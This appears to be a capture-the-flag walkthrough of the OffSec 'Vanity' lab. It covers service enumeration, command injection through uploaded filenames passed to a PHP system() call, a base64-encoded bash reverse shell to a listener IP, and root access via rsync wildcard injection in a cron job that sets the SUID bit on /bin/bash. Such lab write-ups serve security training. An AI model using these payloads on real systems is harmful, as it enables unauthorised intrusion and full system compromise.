


# Vanity

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Practice
Difficulty: Intermediate
Community Rating: Hard
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 20
Number of Flags: 2
Lab Description:
This lab demonstrates exploiting a command injection vulnerability in a file upload feature, allowing 
remote code execution (RCE) by manipulating filenames. Privilege escalation is achieved through a 
wildcard injection vulnerability in a root-executed cron job using the rsync command. By crafting 
malicious files, learners can execute arbitrary commands as root. This lab emphasizes command injection, 
wildcard abuse, and cron job exploitation for full system compromise.
```

Machine link: [https://portal.offsec.com/machine/vanity-42542/overview/details](https://portal.offsec.com/machine/vanity-42542/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Vanity]
└─$ export TARGET_IP=192.168.226.234

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Vanity]
└─$ sudo nmap -sC -sV -p- $TARGET_IP             
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-25 13:36 +0200
Nmap scan report for 192.168.226.234
Host is up (0.033s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Vanity Virus Scanner
|_http-server-header: Apache/2.4.41 (Ubuntu)
873/tcp open  rsync   (protocol version 31)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.97 seconds
```

We have three TCP-services running and available:

- OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 on port 22
- Apache httpd 2.4.41 port 80
- Rsync on port 873

We also do an UDP-scan of the top 100 ports but find nothing.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Vanity]
└─$ sudo nmap -sU --top-ports 100 -sV -sC $TARGET_IP
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-25 13:38 +0200
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 16.50% done; ETC: 13:39 (0:00:15 remaining)
Stats: 0:00:04 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 16.50% done; ETC: 13:39 (0:00:20 remaining)
Nmap scan report for 192.168.226.234
Host is up (0.034s latency).
All 100 scanned ports on 192.168.226.234 are in ignored states.
Not shown: 100 closed udp ports (port-unreach)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.15 seconds
```

### Check the web site

Accessing the website on port 80 (`http://192.168.226.234/`) shows a virus scanner:



A scan with `whatweb` gives us the following information

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Vanity]
└─$ whatweb -a3 http://$TARGET_IP  
http://192.168.226.234 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[enox@vanity.offs], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[192.168.226.234], Script, Title[Vanity Virus Scanner]
```

Scanning for additional interesting directories with `ffuf` we get:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Vanity]
└─$ ffuf -c -w /usr/share/wordlists/dirb/common.txt -recursion -u http://$TARGET_IP/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.226.234/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 2814, Words: 344, Lines: 73, Duration: 39ms]
.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 2618ms]
.hta                    [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 7034ms]
.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 7035ms]
index.html              [Status: 200, Size: 2814, Words: 344, Lines: 73, Duration: 38ms]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 32ms]
uploads                 [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 36ms]
[INFO] Adding a new job to the queue: http://192.168.226.234/uploads/FUZZ

[INFO] Starting queued job on target: http://192.168.226.234/uploads/FUZZ

                        [Status: 200, Size: 947, Words: 65, Lines: 17, Duration: 32ms]
.hta                    [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 33ms]
.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 33ms]
.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 33ms]
:: Progress: [4614/4614] :: Job [2/2] :: 1190 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

We have an `upload` directory with directory listing enabled.



### Rsync enumeration

Next, we enumerate the rsync service:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Vanity]
└─$ rsync --list-only $TARGET_IP::
source          Web Source
backup          Virus Samples Backup

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Vanity]
└─$ rsync --list-only $TARGET_IP::backup
Password: 
@ERROR: auth failed on module backup
rsync error: error starting client-server protocol (code 5) at main.c(1850) [Receiver=3.4.1]

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Vanity]
└─$ rsync --list-only -r $TARGET_IP::source
drwxr-xr-x          4,096 2022/10/25 17:31:36 .
-rw-r--r--          2,814 2022/10/25 17:31:36 index.html
-rw-r--r--            155 2022/10/25 17:31:36 style.css
drwxr-xr-x          4,096 2022/10/25 17:31:36 uploads
-rw-r--r--            738 2022/10/25 17:31:36 uploads/upload.php

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Vanity]
└─$ rsync $TARGET_IP::source/uploads/upload.php upload.php

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Vanity]
└─$ cat upload.php                                   
<?php

        //Check if the file is well uploaded
        if($_FILES['file']['error'] > 0) { echo 'Error during uploading, try again'; }


        //Set up valid extension
        $extsNotAllowed = array( 'php','php7','php6','phar','phtml','phps','pht','phtm','pgif','shtml','htaccess','inc');

        $extUpload = strtolower( substr( strrchr($_FILES['file']['name'], '.') ,1) ) ;

        //Check if the uploaded file extension is allowed

        if (in_array($extUpload, $extsNotAllowed) ) { 
        echo 'File not allowed'; 

        } 
    else {
        $name = "{$_FILES['file']['name']}";
        $result = move_uploaded_file($_FILES['file']['tmp_name'], $name);
        if($result){
            system("/usr/bin/clamscan $name");
        }
    }

?>  
```

We can see that some extensions aren't allowed.

### Upload a test file

Then we upload we upload a test file called `test` via the web site.

The result is:

```html
<html><head></head><body>/var/www/html/uploads/test: OK

----------- SCAN SUMMARY -----------
Known viruses: 8641122
Engine version: 0.103.6
Scanned directories: 0
Scanned files: 1
Infected files: 0
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 12.812 sec (0 m 12 s)
Start Date: 2026:09:25 13:56:50
End Date:   2026:09:25 13:57:03
</body></html>
```

This looks very much like the result of `clamscan` from [ClamAV](https://www.clamav.net/):

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Vanity]
└─$ clamscan test
Loading:    10s, ETA:   0s [========================>]    3.63M/3.63M sigs       
Compiling:   4s, ETA:   0s [========================>]       41/41 tasks 

test: OK

----------- SCAN SUMMARY -----------
Known viruses: 3628083
Engine version: 1.4.6
Scanned directories: 0
Scanned files: 1
Infected files: 0
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 13.937 sec (0 m 13 s)
Start Date: 2026:09:25 16:01:03
End Date:   2026:09:25 16:01:17
```

This matches the source code we saw earlier

```php
<---snip--->
    else {
        $name = "{$_FILES['file']['name']}";
        $result = move_uploaded_file($_FILES['file']['tmp_name'], $name);
        if($result){
            system("/usr/bin/clamscan $name");
        }
    }
```

The use of the [system function](https://www.php.net/manual/en/function.system.php) hints that we should try command injection.

### Verify command injection

Let's see if we can get command injection, with the following file:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Vanity]
└─$ touch 'whatever; id'
```

Uploading this file results in the following output:

```text
----------- SCAN SUMMARY -----------
Known viruses: 8641122
Engine version: 0.103.6
Scanned directories: 0
Scanned files: 0
Infected files: 0
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 11.725 sec (0 m 11 s)
Start Date: 2026:09:25 14:30:34
End Date:   2026:09:25 14:30:46
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The scan process/web server is running as `www-data`.

### Prepare a reverse shell

We want to upload a bash reverse shell and start to prepare one by encoding it with base64.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Vanity]
└─$ echo "bash -c 'bash -i >& /dev/tcp/192.168.45.165/12345 0>&1'" | base64       
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjE2NS8xMjM0NSAwPiYxJwo=

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Vanity]
└─$ cd /tmp                                    

┌──(kali㉿kali)-[/tmp]
└─$ touch 'x; echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjE2NS8xMjM0NSAwPiYxJwo= | base64 -d | bash'
```

Next, we start a netcat listener on port 12345

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Vanity]
└─$ nc -nvlp 12345                                                                  
listening on [any] 12345 ...

```

And upload this file.

### Get a reverse shell

Back at the netcat listener, we get a connection

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Vanity]
└─$ nc -nvlp 12345                                                                  
listening on [any] 12345 ...
connect to [192.168.45.165] from (UNKNOWN) [192.168.226.234] 59874
bash: cannot set terminal process group (959): Inappropriate ioctl for device
bash: no job control in this shell
www-data@vanity:/var/www/html/uploads$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@vanity:/var/www/html/uploads$ 
```

### Fix/upgrade the reverse shell

We don't have a proper shell though so let's fix that.

```bash
www-data@vanity:/var/www/html/uploads$ tty
tty
not a tty
www-data@vanity:/var/www/html/uploads$ which python
which python
www-data@vanity:/var/www/html/uploads$ which python3
which python3
/usr/bin/python3
www-data@vanity:/var/www/html/uploads$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ads$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@vanity:/var/www/html/uploads$ ^Z
zsh: suspended  nc -nvlp 12345

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Vanity]
└─$ stty raw -echo ; fg ; reset
[1]  + continued  nc -nvlp 12345

www-data@vanity:/var/www/html/uploads$ export SHELL=/bin/bash
www-data@vanity:/var/www/html/uploads$ export TERM=xterm-256color
www-data@vanity:/var/www/html/uploads$ tty
/dev/pts/0
www-data@vanity:/var/www/html/uploads$ stty rows 200 columns 200
www-data@vanity:/var/www/html/uploads$ ^C
www-data@vanity:/var/www/html/uploads$ 
```

Now we have a stable shell that survives `Ctrl + C`!

### Get the user flag

Now we can search for the user flag.

```bash
www-data@vanity:/var/www/html/uploads$ find / -name local.txt -type f 2>/dev/null
/var/www/local.txt
www-data@vanity:/var/www/html/uploads$ cat /var/www/local.txt 
9<REDACTED>f
www-data@vanity:/var/www/html/uploads$ 
```

### Enumeration for privesc

Searching for privilege escalation oppurtunities, we find a `backup.sh` script running via cron.

```bash
www-data@vanity:/var/www/html/uploads$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *         * * *       root    bash /opt/backup.sh
#
www-data@vanity:/var/www/html/uploads$ ls -l /opt/backup.sh
-rwxr-xr-x 1 root root 89 Oct 25  2022 /opt/backup.sh
www-data@vanity:/var/www/html/uploads$ cat /opt/backup.sh
cd /var/www/html/uploads/
rsync --password-file=/root/passwd -a * rsync://vanity/backup/
www-data@vanity:/var/www/html/uploads$ 
```

Note the `*`-wildcard in the command.

### Get a root shell

With some inspiration from [GTFOBins](https://gtfobins.org/gtfobins/rsync/) we create two special files in the `/var/www/html/uploads/` directory.

```bash
www-data@vanity:/var/www/html/uploads$ echo -e '#!/bin/sh\nchmod +sx /bin/bash' > exploit.sh
www-data@vanity:/var/www/html/uploads$ cat exploit.sh 
#!/bin/sh
chmod +sx /bin/bash
www-data@vanity:/var/www/html/uploads$ touch './-e bash exploit.sh'
www-data@vanity:/var/www/html/uploads$ ls -l
total 8
-rw-r--r-- 1 www-data www-data  0 Sep 25 16:20 '-e bash exploit.sh'
-rw-r--r-- 1 www-data www-data  29 Sep 25 16:07  exploit.sh
-rw-r--r-- 1 www-data www-data   0 Sep 25 16:00  temp
-rw-r--r-- 1 www-data www-data 738 Oct 25  2022  upload.php
-rw-r--r-- 1 www-data www-data   0 Sep 25 15:49 'x; echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjE2NS8xMjM0NSAwPiYxJwo= | base64 -d | bash'
www-data@vanity:/var/www/html/uploads$ chmod +x exploit.sh
www-data@vanity:/var/www/html/uploads$ rm x\;\ echo\ YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjE2NS8xMjM0NSAwPiYxJwo\=\ \|\ base64\ -d\ \|\ bash 
www-data@vanity:/var/www/html/uploads$ rm temp
www-data@vanity:/var/www/html/uploads$ rm upload.php
www-data@vanity:/var/www/html/uploads$ ls -l
total 4
-rw-r--r-- 1 www-data www-data  0 Sep 25 16:23 '-e bash exploit.sh'
-rwxr-xr-x 1 www-data www-data 30 Sep 25 16:22  exploit.sh
www-data@vanity:/var/www/html/uploads$ 
```

Together they will execute `exploit.sh` when `rsync` expands the `*`-wildcard.

That is:

`rsync --password-file=/root/passwd -a * rsync://vanity/backup/`

will become

`rsync --password-file=/root/passwd -a '-e bash exploit.sh' exploit.sh rsync://vanity/backup/`

Then we wait a minute or so and verify that the SUID bit is set.

```bash
www-data@vanity:/var/www/html/uploads$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

With all this set we can get a root shell.

```bash
www-data@vanity:/var/www/html/uploads$ /bin/bash -p
bash-5.0# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-5.0# 
```

### Get the root flag

Finally, we can cat the root flag.

```bash
bash-5.0# cd /root
bash-5.0# ls -l
total 12
-rw------- 1 root root   23 Oct 25  2022 passwd
-rwx------ 1 root root   33 Sep 25 15:48 proof.txt
drwx------ 3 root root 4096 Jun 15  2022 snap
bash-5.0# cat proof.txt
f<REDACTED>a
bash-5.0# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [base64 - Linux manual page](https://man7.org/linux/man-pages/man1/base64.1.html)
- [Base64 - Wikipedia](https://en.wikipedia.org/wiki/Base64)
- [bash - Linux manual page](https://www.man7.org/linux/man-pages/man1/bash.1.html)
- [chmod - Linux manual page](https://man7.org/linux/man-pages/man1/chmod.1.html)
- [ClamAV - Documentation](https://docs.clamav.net/)
- [ClamAV - Homepage](https://www.clamav.net/)
- [cron - Wikipedia](https://en.wikipedia.org/wiki/Cron)
- [crontab(5) - Linux manual page](https://man7.org/linux/man-pages/man5/crontab.5.html)
- [echo - Linux manual page](https://man7.org/linux/man-pages/man1/echo.1.html)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [ffuf - GitHub](https://github.com/ffuf/ffuf)
- [ffuf - Kali Tools](https://www.kali.org/tools/ffuf/)
- [ffuf - Wiki](https://github.com/ffuf/ffuf/wiki)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH  - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [PHP - Wikipedia](https://en.wikipedia.org/wiki/PHP)
- [rsync - GTFOBins](https://gtfobins.org/gtfobins/rsync/)
- [rsync - Linux manual page](https://linux.die.net/man/1/rsync)
- [Rsync - Wikipedia](https://en.wikipedia.org/wiki/Rsync)
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [stty - Linux manual page](https://man7.org/linux/man-pages/man1/stty.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [system function - PHP Manual](https://www.php.net/manual/en/function.system.php)
- [touch - Linux manual page](https://man7.org/linux/man-pages/man1/touch.1.html)
- [tty - Linux manual page](https://man7.org/linux/man-pages/man1/tty.1.html)
- [WhatWeb - Homepage](https://morningstarsecurity.com/research/whatweb)
- [WhatWeb - Kali Tools](https://www.kali.org/tools/whatweb/)
